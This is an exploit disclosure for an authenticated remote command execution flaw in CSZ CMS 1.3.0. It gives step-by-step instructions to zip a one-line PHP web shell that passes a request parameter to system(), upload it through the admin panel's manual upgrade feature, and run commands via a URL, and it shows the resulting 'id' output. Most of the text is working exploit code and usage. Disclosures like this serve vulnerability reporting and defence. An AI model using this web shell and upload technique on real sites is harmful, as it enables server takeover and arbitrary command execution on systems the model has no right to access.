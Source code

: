 # CSZ CMS
## CSZ CMS Version 1.3.0 Remote Command Execution

**Exploit Title:** CSZ CMS Version 1.3.0 Remote Command Execution  
**Date:** 23/11/2023  
**Exploit Author:** tmrswrr  
**Vendor Homepage:** [https://www.cszcms.com/](https://www.cszcms.com/)  
**Software Link:** [SourceForge](https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download)  
**Version:** 1.3.0  
**Tested on:** [Softaculous CSZ CMS](https://www.softaculous.com/apps/cms/CSZ_CMS)

## Steps to Reproduce:

1. Enter the admin panel and go to this URL: `https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade`

2. Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
   <?php echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; ?>
   ```
3. Go to System Upgrade Manually and upload the poc.zip file.
4. Access poc.php via:

    https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id
        Output:

uid=1000(soft) gid=1000(soft) groups=1000(soft)


